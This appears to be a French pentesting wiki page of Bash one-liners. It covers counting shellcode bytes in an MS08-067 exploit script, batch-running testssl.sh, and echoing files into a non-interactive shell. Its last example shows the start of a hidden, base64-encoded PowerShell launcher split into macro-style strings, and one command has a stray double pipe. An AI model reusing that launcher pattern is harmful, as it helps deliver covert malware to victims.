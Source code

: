```yaml
---
title: Bash
permalink: /Bash/
---
```


# Bash

## Commandes utiles
### Divers

Les commandes suivantes permettent de compter le nombre de caractères dans un shellcode:

``` bash
cat ms_08_067.py| grep "^shellcode" | awk '{print $3}' | cut -d'"' -f2 | sed ':a;N;$!ba;s/\n//g' | wc -c
```

Divisions en CLI

``` bash
v=$(cat tmp | cut -d'"' -f2 | tr -d '\n' | wc -c);echo $((v/4))
```

Faire tourner un outil en boucle sur chaque ligne d'un fichier
```
while read dom; do /opt/testssl.sh/testssl.sh --csv $dom ; done < domains.txt
```

### Sed Magic

Les commandes suivantes générent les commandes à taper pour copier/coller un fichier dans un shell non interactif:

``` bash
cat test | sed -e 's/^/echo /g' | sed -e 's/$/>> file.txt/g'
```

Découper une longue entrée sur plusieurs lignes:
``` bash
cat test | | sed 's/.\{70\}/Str = Str + "&"\n/g'
Str = Str + "%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -e aQBmACg"
Str = Str + "AWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewAkAGIAPQAnA"
[...]
```

